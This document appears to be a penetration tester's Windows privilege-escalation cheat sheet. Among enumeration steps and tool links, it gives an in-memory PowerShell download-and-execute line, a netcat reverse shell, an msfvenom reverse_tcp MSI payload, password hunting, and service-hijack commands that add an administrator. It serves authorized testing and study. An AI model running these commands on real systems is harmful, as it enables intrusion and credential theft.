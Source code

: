 **Resources:**

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

- [Sushant747 Guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)

- [Absolomb Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

**Manual Enumeration:**

 System:
 
    systeminfo   
    wmic qfe get Caption,Description,HotFixID,InstalledOn  #Patch info   
    wmic logicaldisk get caption,description,providername  #Disk info
    
    dir <file> /s /p   #Find file name. /s search all folders on HD, /p pause on each screen
    
    powershell -ep bypass   # to run scripts
    
  User:
  
    whoami /priv #privileges for current user    
    whoami /groups    
    net user 
    net user <user> 

  Network: 
  
    ipconfig
    arp -a
    route print
    netstat -ano
    
   If you find network services that are only available to the local host or a dualhomed NIC you may want to [port forward](https://github.com/Kahvi-0/Cheat-Sheets/blob/master/Post%20exploitation/Windows/Port%20forwarding.md) them to your host 
    
  Password hunting:

     findstr /si password *.txt *.ini *.config
     
  AV: 
  
      sc query windefend
      sc queryex type= service
      
  Firewall:
  
      netsh advfirewall firewall dump
      netsh firewall show state
      netsh firewall show config

**Automated Enumeration**

-------------------------------------------------------------------------------------

- [winPEAS .bat](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat)

      wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat
      
 - [winPEAS .exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)
      
-------------------------------------------------------------------------------------
    
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

Run powershell and run the following to download and run in memory

    iex(New-Object Net.WebClient).DownloadString('http://<ip>:<port>PowerUp.ps1')
    
Run from disk

    . .\PowerUp.ps1
    Invoke-AllChecks
    
-------------------------------------------------------------------------------------


- [Windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

      wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py && chmod +x windows-exploit-suggester.py && ./windows-exploit-suggester.py --update
      
      # This download and will create an .xlsx database
      
       CMD "systeminfo" saved to a file 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo sysinfo.txt 
      
      # Without 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext 'windows server 2008 r2'

-------------------------------------------------------------------------------------


- Meterpreter exploit suggester module

      post/multi/recon/local_exploit_suggester


-------------------------------------------------------------------------------------

[Meterpreter getsystem](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/)

 Note: technique 2 writes to disk ! Which means that it can get caught by AV.

-------------------------------------------------------------------------------------

**[Kernel](https://github.com/Kahvi-0/General-Notes/blob/master/Processes%20and%20architecture/Kernel.md) Exploits**

  Knowing the build of the OS is importent to knowing what kernel version is running and what vulnerabilties that kernel version might have. If you can own the kernel, you own the system.
  
 - Research Kernel exploits shown from tool output such as the exploit suggesters.
  
 - [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)

-------------------------------------------------------------------------------------


**Password Hunting**

- Cleartext:

   Note that a lot of these will also be included in the automated enumeration tools

  - [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords)
 
- Hashed: 

  - [Pentest lab](https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/)

  - [mimikatz](https://github.com/Kahvi-0/Tools-and-Concepts/blob/master/Windows/Mimikatz.md)

     - Need process with permissions to be able to interact with the running lsass.exe process
        -  ran as NT AUTHORITY\SYSTEM
        -  Must be same arch as the lsass.exe running on the target
        
-------------------------------------------------------------------------------------

    
**[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Windows/Token%20impersonation%20%7C%20potato%20attacks.md)**

    whoami /priv  #windows shell
    getprivs      #meterpreter
    
  [Juicy privileges](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges) to look for.
  
  [Juicy potato](https://github.com/ohpe/juicy-potato)
  
   Meterpreter version of potato attack. Requires a meterpreter session with the same architecture as the target.

    exploit/windows/local/ms16_075_reflection_juicy   #Windows 10
    exploit/windows/local/ms16_075_reflection

-------------------------------------------------------------------------------------
   
**[RUNAS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---runas)**
 
 Get a copy of nc.exe onto the target

    runas /savecred /user:<machine>\<user> "nc.exe -nv <IP> <port> -e cmd.exe"
   
-------------------------------------------------------------------------------------

**Registry related**

*Autoruns*

Requires a privileged account to login to tigger the autorun program to execute with admin privs. 
Using [Sysinternal tools](https://live.sysinternals.com/) Autoruns and accesschk we are going to check for programs that autorun.
Autoruns uses a GUI. Command to identify modifiable autorun programs: 

    accesschk64.exe -wvu "<image path identified in Autoruns>"

      -w programs that have write access
      -v verbose
      -u suppress errors

Modifiable Autoruns programs will also be identified using PowerUp.

Generate a payload for a shell and replace the modifiable program. 

*AlwaysInstallElevated*

Newly installed MSI packages (windows installers) will installed with elevated privileges (as admin user). If the registry key is 1, then it is installed. Powerup will look for this.

Detect - Tested on Windows 7:

    reg query HKLM\Software\Policies\Microsoft\Windows\Installer
    reg query HKCU\Software\Policies\Microsoft\Windows\Installer
    
Exploit:

After powerup has been invoked. If this is exploitable, powerup's output will give you a command to run that will generate an MSI file that will create a new admin user, This requires a GUI.

CLI version is to generate a payload MSI installer with a shell.

    msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<port> -f msi -o setup.msi 
    msiexec /quiet /qn /i setup.msi
    
Eleveate a lowlevel meterpreter session:

    use exploit/windows/local/always_install_elevated

*[regsvc](https://docs.microsoft.com/en-us/dotnet/framework/tools/regsvcs-exe-net-services-installation-tool) ACL*

Checking the ACL of the registry service to see if we have full control over a registry key. Then we generate a malicious exe to run under the registry using image path. So when regsvc is started it will run our exe.

Detect:

    Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl   

Exploit:

 Compile [Windows service](https://github.com/Kahvi-0/Cheat-Sheets/blob/master/Post%20exploitation/Windows/resources/windows_service.c) with the desired command to be ran. Example: cmd.exe /k net localgroup administrators user /add

    x86_64-w64-mingw32-gcc windows_service.c -o x.exe (NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')
    
    reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\<path to exe> /f

-------------------------------------------------------------------------------------

**Executables**

Powerup can identify service executables that we have full access to. We can replace that exe file with our malicious one and restart the service, now running our exe. Powerup will identify the service name and exe location.
 Compile [Windows service](https://github.com/Kahvi-0/Cheat-Sheets/blob/master/Post%20exploitation/Windows/resources/windows_service.c) with the desired command to be ran and replace the service exe with the new exe. Example: cmd.exe /k net localgroup administrators user /add

    sc start <service>
  
-------------------------------------------------------------------------------------

**Startup applications**




-------------------------------------------------------------------------------------

 
  - [Nishang repo](https://github.com/samratashok/nishang)

